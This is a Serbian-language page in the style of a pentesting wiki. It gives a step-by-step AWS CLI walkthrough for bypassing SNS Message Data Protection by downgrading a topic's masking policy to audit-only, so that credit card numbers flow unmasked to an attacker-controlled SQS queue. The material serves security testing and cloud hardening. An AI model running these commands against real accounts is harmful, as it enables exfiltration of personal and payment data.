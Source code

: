 # AWS - SNS Message Data Protection: zaobilaženje putem Policy Downgrade

{{#include ../../../../banners/hacktricks-training.md}}

Ako imate `sns:PutDataProtectionPolicy` na topic-u, možete promeniti njegov Message Data Protection policy sa Deidentify/Deny na Audit-only (ili ukloniti Outbound kontrole) tako da osetljive vrednosti (npr. brojevi kreditnih kartica) budu isporučene neizmenjene vašoj subscription.

## Zahtevi
- Dozvole na ciljnom topic-u za pozivanje `sns:PutDataProtectionPolicy` (i obično `sns:Subscribe` ako želite da primate podatke).
- Standardni SNS topic (Message Data Protection podržan).

## Koraci napada

- Promenljive

```bash
REGION=us-east-1
```

1) Kreirajte standardni topic i napadačku SQS queue, i dozvolite samo ovom topic-u da šalje u queue

```bash
TOPIC_ARN=$(aws sns create-topic --name ht-dlp-bypass-$(date +%s) --region $REGION --query TopicArn --output text)
Q_URL=$(aws sqs create-queue --queue-name ht-dlp-exfil-$(date +%s) --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes Policy=Version:2012-10-17
```

2) Priložite data protection policy koja maskira brojeve kreditnih kartica u outbound porukama

```bash
cat > /tmp/ht-dlp-policy.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "MaskCCOutbound",
"Principal": ["*"],
"DataDirection": "Outbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Deidentify": { "MaskConfig": { "MaskWithCharacter": "#" } } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-policy.json)"
```

3) Pretplatite napadačku queue i objavite poruku sa test CC brojem, proverite maskiranje

```bash
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```

Očekivani isječak prikazuje maskiranje (hashovi):
```json
"Message" : "payment:{cc:################}"
```
4) Smanjite politiku na audit-only (bez deidentify/deny izjava koje utiču na Outbound)

Za SNS, Audit statements moraju biti Inbound. Zamena politike sa Audit-only Inbound izjavom uklanja svaku Outbound de-identification, tako da poruke prolaze neizmenjene do pretplatnika.
```bash
cat > /tmp/ht-dlp-audit-only.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "AuditInbound",
"Principal": ["*"],
"DataDirection": "Inbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Audit": { "SampleRate": 99, "NoFindingsDestination": {} } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-audit-only.json)"
```

5) Objavite istu poruku i proverite da je nemaskirana vrednost isporučena
```bash
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```
Očekivani isječak prikazuje CC u čistom tekstu:
```text
4539894458086459
```
## Uticaj
- Prebacivanje topic-a sa de-identification/deny na audit-only (ili uklanjanje Outbound kontrola) omogućava da PII/secrets prolaze neizmenjeni do attacker-controlled subscriptions, omogućavajući data exfiltration koja bi inače bila maskirana ili blokirana.

{{#include ../../../../banners/hacktricks-training.md}}
